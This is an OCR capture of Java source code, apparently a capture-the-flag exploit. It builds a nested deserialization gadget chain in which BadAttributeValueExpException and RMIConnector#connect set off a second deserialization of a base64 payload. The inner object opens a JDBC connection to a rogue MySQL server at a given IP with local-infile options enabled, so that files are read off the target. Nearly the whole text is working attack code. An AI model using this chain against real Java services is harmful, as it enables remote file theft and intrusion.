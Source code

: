 ```java
    //首次反序列化, 使用RMIConnector#connect触发二次反序列化
    public static byte[] getTest(String message,RMIConnector rmiConnector) throws Exception {
        String url ="h0cksr::url";
        //String message = "h0cksr::message";
        MyBean myBean = new MyBean(url,message,rmiConnector);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, "val",myBean);
        byte[] ser = serialize(badAttributeValueExpException);
        //deserialize(ser);//执行反序列化检验能否成功触发
        return ser;
    }
    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();
//        获取到二次反序列化的base64数据, 后面会通过JMXServiceURL加载触发反序列化
        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());
//        System.out.println("exp::"+exp);
        Map<String, Integer> map=new HashMap<>();
        RMIConnector rmiConnector=new RMIConnector(new JMXServiceURL("service:jmx:rmi://localhost:12345/stub/"+exp),map);
        int i=0;
        byte[] ser = getTest("message"+Integer.toString(i),rmiConnector);
        String data = Base64.getEncoder().encodeToString(ser);
        System.out.println( data);
//        下面代码用于检验数据是否满足题目的hashcode检验要求(可删掉)
        if(true){
            InputStream inputStream = new ByteArrayInputStream(ser);
            ObjectInputStream objectInputStream = new MyObjectInputStream(inputStream);
            String key = objectInputStream.readUTF();
            if(key.hashCode()==data.substring(0, 6).hashCode()){
                System.out.println("OK");
            }
            else System.out.println("Check Your readUTF data's hashCode");
        }
    }
    //被嵌套的二次反序列化对象
    public static Object getObject() throws Exception {
        // 这里修改为Mysql恶意服务Rogue-MySql-Server的ip和port
        String url ="jdbc:mysql://10.91.60.14:3306/file:///?allowLoadLocalInfile=true&allowUrlInLocalInfile=true";
        String name = "&user=root";
        String password = "&password=password";
        Connect connect = new Connect(url,name,password);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        String message = "h0cksr::message";
        MyBean myBean = new MyBean(url,message,connect);
        setFieldValue(badAttributeValueExpException, "val",myBean);
        return badAttributeValueExpException;
    }
}
```

